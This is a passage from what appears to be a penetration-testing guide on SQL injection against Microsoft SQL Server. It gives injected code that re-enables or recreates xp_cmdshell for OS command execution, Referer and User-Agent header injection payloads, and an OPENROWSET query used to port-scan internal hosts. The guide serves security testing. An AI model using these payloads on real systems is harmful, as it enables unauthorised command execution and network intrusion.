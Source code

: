 ```
  EXECUTE @OLEResult = sp_OAMethod @ShellID, 'Run', Null, @cmd, 0, @Wait
  IF @OLEResult <> 0 SELECT @result = @OLEResult
  IF @OLEResult <> 0 RAISERROR ('Run %0X', 14, 1, @OLEResult)
  EXECUTE @OLEResult = sp_OADestroy @ShellID
  return @result
```


This code, written by Antonin Foller (see links at the bottom of the page), creates a new xp_cmdshell using sp_oacreate, sp_oamethod and sp_oadestroy (as long as they haven't been disabled too, of course). Before using it, we need to delete the first xp_cmdshell we created (even if it was not working), otherwise the two declarations will collide.
<br><br>
On SQL Server 2005, xp_cmdshell can be enabled by injecting the following code instead:
```
master..sp_configure 'show advanced options',1
reconfigure
master..sp_configure 'xp_cmdshell',1
reconfigure
```


### Example 6: Referer / User-Agent

The REFERER header set to:
```
 Referer: https://vulnerable.web.app/login.aspx', 'user_agent', 'some_ip'); [SQL CODE]--
```
Allows the execution of arbitrary SQL Code. The same happens with the User-Agent header set to:
```
 User-Agent: user_agent', 'some_ip'); [SQL CODE]--
```

### Example 7: SQL Server as a port scanner

In SQL Server, one of the most useful (at least for the penetration tester) commands is OPENROWSET, which is used to run a query on another DB Server and retrieve the results. The penetration tester can use this command to scan ports of other machines in the target network, injecting the following query:
```
select * from OPENROWSET('SQLOLEDB','uid=sa;pwd=foobar;Network=DBMSSOCN;Address=x.y.w.z,p;timeout=5','select 1')--
```


This query will attempt a connection to the address x.y.w.z on port p. If the port is closed, the following message will be returned:
```
SQL Server does not exist or access denied
```


On the other hand, if the port is open, one of the following errors will be returned:
```
General network error. Check your network documentation
```
```
OLE DB provider 'sqloledb' reported an error. The provider did not give any information about the error.
```

